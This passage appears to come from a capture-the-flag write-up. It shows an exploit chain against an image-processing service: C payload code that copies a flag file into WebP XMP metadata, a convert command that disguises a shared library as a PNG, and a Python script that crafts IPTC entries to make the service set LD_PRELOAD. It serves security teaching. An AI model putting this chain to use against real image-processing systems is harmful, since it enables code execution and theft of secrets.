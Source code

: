 ```c
    buf[0] = 'X';
    buf[1] = 'M';
    buf[2] = 'P';
    buf[3] = ' ';
    *((uint32_t*)(buf+4)) = fsize;
    int64_t ret = read(flag_fd, buf+8, fsize);
    if (ret < 0)
        kill();

    *((uint32_t*)(mini_webp + 4)) += size;
    mini_webp[0x14] |= 0b100; // XMP flag in VP8X

    write(out_fd, mini_webp, mini_webp_len);
    write(out_fd, buf, size);
    close(out_fd);

    success();
}
```

The ELF file is resized and encoded as PNG file as described above. In addition, we include a IPTC file that triggers setting the `LD_PRELOAD` variable:

```
fallocate -l $((256*256*3)) lib.so && convert -depth 8 -size 256x256 RGB:lib.so -profile exploit.iptc exploit.png
```

The IPTC file is created in `create_iptc.py`:
```
#!/usr/bin/env python3

import sys
import struct

iptc = sys.argv[1]
ticket = sys.argv[2]

# Create a IPTC file

# pwndbg> p (*((char*(*) [10][256]) 0x7ffff75359a0))[9][14]
# $60 = 0x5597f00dab0a "Example Writer"
# pwndbg> p (*(char*(*) [10][256])0x7ffd741bac70)[9][23]
# $6 = 0x55ccf72352a2 "%hhx, dataset=%hhu:%02hhu, size=%hu, data=%.*s\n"
#
# - Last IPTC entry has to be value "LD_PRELOAD"
# - iptc[9][14] must be the "Image" RGB value

upload_path = f"/tmp/snow_globe/intermediate_results/{ticket}.rgb"
tag = 0x1c
with open(iptc, "wb") as f:
    dat = struct.pack(">BBBH", tag, 0x09, 0x0e, len(upload_path)) + upload_path.encode()
    f.write(dat)

    dat = struct.pack(">BBBH", tag, 0x09, 0x17, len("LD_PRELOAD")) + b"LD_PRELOAD"
    f.write(dat)
```
